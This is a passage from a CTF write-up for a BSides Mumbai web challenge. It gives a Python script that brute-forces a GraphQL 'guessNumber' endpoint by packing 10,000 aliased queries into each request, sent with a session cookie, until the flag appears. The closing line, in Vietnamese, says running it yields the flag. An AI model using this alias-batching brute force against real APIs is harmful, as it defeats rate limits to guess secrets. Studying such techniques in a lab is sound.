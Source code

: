 ```python
COOKIES = {
    "connect.sid": "s%3Au9bfSbUSXIohLXqTZYLb9De1zgLifUie.WLVuSARgw0f6o%2F8ZsPoINXwnFFeh%2Bd9Q6k8IGk9UOTo"
}

def build_query(start, end):
    query_parts = []
    for i in range(start, end):
        query_parts.append(
            f'alias{i}: guessNumber(number: {i}) {{ correct message flag }}'
        )
    return "query { " + "\n".join(query_parts) + " }"

def main():
    step = 10000
    for batch in range(10):
        start = batch * step + 1
        end = start + step
        print(f"[*] Sending numbers from {start} to {end - 1}...")
        query = build_query(start, end)
        payload = {"query": query}
        response = requests.post(URL, json=payload, headers=HEADERS, cookies=COOKIES)
        if response.status_code != 200:
            print(f"[!] Request failed with status code {response.status_code}")
            print(response.text)
            break
        data = response.json().get("data", {})
        for alias, result in data.items():
            if result["correct"]:
                print(f"[+] Found the correct number: {alias[5:]}")
                print(f"Message: {result['message']}")
                print(f"Flag: {result['flag']}")
                return
    print("[-] Finished. No correct number found in range.")

if __name__ == "__main__":
    main()
```
{% endraw %}
Sau khi chạy code xong sẽ ra flag. 

![pic](/assets/challenge%20files/BsidesMumbaiCTF/Web/Operation/Pic3.png)
